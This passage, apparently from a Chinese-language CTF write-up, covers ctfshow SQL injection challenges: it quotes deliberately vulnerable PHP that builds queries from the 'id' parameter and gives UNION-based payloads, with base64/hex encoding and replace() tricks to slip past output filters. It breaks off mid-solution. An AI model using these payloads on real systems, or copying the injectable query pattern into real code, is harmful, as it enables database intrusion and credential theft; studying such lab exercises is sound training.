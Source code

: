### 题目

查询语句

```
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user3 where username !='flag' and id = '".$_GET['id']."' limit 1;";     
```

返回逻辑

```
//检查结果是否有flag
    if(!preg_match('/flag/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

### 答案

```
-1' union select 1,2,password from ctfshow_user3--+
```

```
-1' union select to_base64(username),hex(password),3 from ctfshow_user3 --+
```

## web174

#### 题目

```
//查询语句
//拼接sql语句查找指定ID用户
$sql = "select username,password from ctfshow_user4 where username !='flag' and id = '".$_GET['id']."' limit 1;";
      
//返回逻辑
//检查结果是否有flag，同时过滤了数字
    if(!preg_match('/flag|[0-9]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

#### 答案

查询数据库名 ctfshow_web

```
-1' union select 'a',database()--+
```

运用 replace() 函数替换 数字为其它的字符，一直替换完 1~9，b.password   中， b 为我们为表 ctfshow_user4 起的别名

```
replace(b.password,"1","!")
```
